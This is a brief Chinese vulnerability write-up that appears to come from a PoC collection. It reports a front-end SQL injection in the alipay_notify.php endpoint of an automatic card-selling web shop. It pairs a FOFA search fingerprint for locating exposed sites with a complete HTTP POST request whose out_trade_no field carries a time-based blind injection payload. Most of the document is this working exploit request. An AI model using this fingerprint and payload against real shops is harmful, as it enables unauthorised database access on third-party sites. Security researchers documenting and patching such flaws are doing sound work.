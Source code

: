 # 某自动发卡网alipay_notify.php存在SQL注入漏洞

**位于** **/shop/alipay_notify.php 中** **post直接传入out_trade_no，并且直接拼接进语句导致前台SQL注入**

## fofa

```javascript
"template/t1/assets/js/odometer.min.js"
```

![image-20240716201017098](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407162010214.png)

## poc

```javascript
POST /shop/alipay_notify.php HTTP/2
Host: 127.0.0.1
Cookie: PHPSESSID=audck4dekct1clpgrqfcunre66
Content-Length: 14
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/shop/alipay_notify.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Sec-Fetch-User: ?1
Priority: u=0, i

out_trade_no=' AND (SELECT 4286 FROM (SELECT(SLEEP(5)))ztQX)-- rLAn
```

![image-20240716201023750](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407162010821.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/ovB7d4ePnGmCEg-F1k3ZGg